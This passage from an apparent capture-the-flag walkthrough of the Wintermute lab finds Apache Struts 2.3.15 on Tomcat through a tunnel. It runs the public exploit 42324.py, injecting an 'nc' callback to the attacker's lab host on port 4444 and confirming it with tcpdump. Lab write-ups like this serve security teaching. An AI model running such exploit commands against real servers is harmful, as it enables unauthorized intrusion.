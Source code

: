The note mentioned something about **Tomcat**, and we see it running at port **8080** so let's check that. We could have also guessed that since it is the default port for Tomcat.

Let's navigate to **/struts2_2.3.15.1-showcase** which is the directory mentioned in the note at Straylight. Since we have a tunnel, visiting `http://192.168.56.102:8080/struts2_2.3.15.1-showcase` should forward us to Necromancer port **8080**

![](/assets/images/wintermute/19.png)

## Vulnerability Analysis

From the name of the directory we can conclude that this is Struts version **2.3.15**.
Searching for known exploits reveals

![](/assets/images/wintermute/20.png)

Let's use **42324.py**.

To confirm that it works we will tunnel another port. I selected port **4444** and set **tcpdump** to capture incoming traffic.

Now with **42324.py** run `python 42324.py http://192.168.56.102:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "nc 192.168.57.4 4444"`

As soon as I hit the command **tcpdump** started capturing something, so I believe the command worked.

![](/assets/images/wintermute/21.png)
